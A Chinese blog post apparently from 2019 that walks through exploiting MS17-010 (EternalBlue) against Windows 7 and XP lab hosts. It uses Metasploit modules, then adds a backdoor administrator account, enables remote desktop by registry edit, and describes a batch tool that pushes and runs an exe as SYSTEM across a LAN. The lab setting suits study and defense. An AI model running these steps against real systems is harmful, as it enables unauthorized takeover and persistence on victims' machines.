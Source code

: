 ```yaml
---
title: "永恒之蓝-ETERNALBLUE漏洞MS17-010利用过程"
categories: ["安全技术"]
tags: ["exp", "漏洞利用", "MSF", "Kali"]
draft: false
slug: "22"
date: "2019-02-13 18:26:00"
---
```


# 事情起因

虽然距离上一次 WannaCry 席卷全球(17-05-12)已经过去一年多了，现在来复现有炒冷饭的嫌疑，但是还是有价值的

参考文章：

- http://blog.51cto.com/chenxinjie/2092754
- https://www.freebuf.com/articles/system/133853.html

# 环境准备

- Kali：192.168.2.6
- Win7_SP1:192.168.2.7：默认为 Administrator 账户无密码
- WinXP_SP3：192.168.2.4

# 使用 metasploit

## 搜索模块

使用 metasploit 来进行扫描和攻击，我们先看一下关于 ms17_010 的模块有哪些：

![][1]

扫描模块用

```
auxiliary/admin/smb/ms17_010_command

或者使用这个

auxiliary/scanner/smb/smb_ms17_010
```

攻击模块我们使用`exploit/windows/smb/ms17_010_eternalblue`

## 使用扫描模块进行扫描

`auxiliary/admin/smb/ms17_010_command`

![][2]

可以看到 winxp 扫描成功了，win7 没有扫描到，我们换另一个扫描模块：

`auxiliary/scanner/smb/smb_ms17_010`

![][3]

可以看到这个模块两个靶机它都认为可以攻击

## 使用攻击模块进行攻击

`exploit/windows/smb/ms17_010_eternalblue`

![][4]

开了防火墙的情况下是攻击不了的，关掉就可以攻击了。

## 对靶机进行控制

此处补充一下哪下 shell 中文显示乱码的问题：

输入`chcp 65001`即可

![][5]

### 创建用户并添加到管理员组

```
net user soapffz adminpasswd /add
net localgroup administrators soapffz /add
```

![][6]

### 开启远程桌面功能

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

关闭时使用如下语句：

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 11111111 /f
```

![][7]

### 远程桌面连接

![][8]

如果你的电脑是登陆了其他账户的话，这个远程桌面窗口会一直等待 20 秒左右，这边没有反应的话就会把管理员账户挤下去，就进桌面了：

![][9]

# Windows 下的检测&&攻击工具

## EternalBlues 批量检测工具

下载连接：http://omerez.com/repository/EternalBlues.exe

可以批量检测当前电脑所在局域网内的主机是否存在 ms17_010 漏洞(速度较快)：

![][10]

## MS_17_010_Scanv2.1 检测工具

下载链接：https://www.lanzous.com/i359xch

速度较慢：

![][11]

## cping 批量检测工具(19-02-23 更新)

介绍及使用参考文章：[内网 - 扫描存活主机][12]

## k8 加强版 zzz 攻击工具(19-02-23 更新)

内网批量 MS17-010 溢出工具，出自 k8 团队：https://www.cnblogs.com/k8gege/p/10391101.html

以下教程搬运自 k8：

```
工具:k8加强版zzz

编译:python

漏洞:MS17-010

用法:

zzz_exploit.exe 192.11.22.82
zzz_exploit.exe 192.11.22.82 exe参数
zzz_exploit.exe 192.11.22.82 exe参数 管道名

如exe启动参数为  m.exe -Start 实战命令为 zzz_exploit.exe 192.11.22.82 -Start

内网批量

可结合cping批量溢出内网,将名称改为smbcheck即可,但exe必须使用无参版。（其它工具也可以，提供个IP参数即可）

因为cping只会传IP进去,不会传其它参数。使用前需将任意exe改名为ma.dat

溢出成功会自动将exe传入目标机器，并以system权限启动exe程序。
```

我们先试一下不带 exe 程序执行的效果：

![][13]

然后我们把一个经典的 IP 雷达工具按照教程所示改名为 ma.dat 放到文件夹中：

![][14]

然后再试一下：

![][15]

可以看到上传我们的 IP 雷达 exe 到了`C:\WINDOWS\Temp\msupdate.exe`，但是我们这不是一个马子所以启动服务失败了：

![][16]

大概用法就是这样

[1]: https://img.soapffz.com/archives_img/2019/02/13/archives_20190213_184325.png
[2]: https://img.soapffz.com/archives_img/2019/02/13/archives_20190213_194652.png
[3]: https://img.soapffz.com/archives_img/2019/02/13/archives_20190213_194827.png
[4]: https://img.soapffz.com/archives_img/2019/02/13/archives_20190213_211019.png
[5]: https://img.soapffz.com/archives_img/2019/02/13/archives_20190213_213426.png
[6]: https://img.soapffz.com/archives_img/2019/02/13/archives_20190213_211754.png
[7]: https://img.soapffz.com/archives_img/2019/02/13/archives_20190213_212202.png
[8]: https://img.soapffz.com/archives_img/2019/02/13/archives_20190213_212447.png
[9]: https://img.soapffz.com/archives_img/2019/02/13/archives_20190213_212727.png
[10]: https://img.soapffz.com/archives_img/2019/02/13/archives_20190213_213852.png
[11]: https://img.soapffz.com/archives_img/2019/02/13/archives_20190215_103452.png
[12]: https://www.soapffz.com/sec/116.html#menu_index_35=true
[13]: https://img.soapffz.com/archives_img/2019/02/23/archives_20190224_210224.png
[14]: https://img.soapffz.com/archives_img/2019/02/23/archives_20190224_210417.png
[15]: https://img.soapffz.com/archives_img/2019/02/23/archives_20190224_210618.png
[16]: https://img.soapffz.com/archives_img/2019/02/23/archives_20190224_210802.png
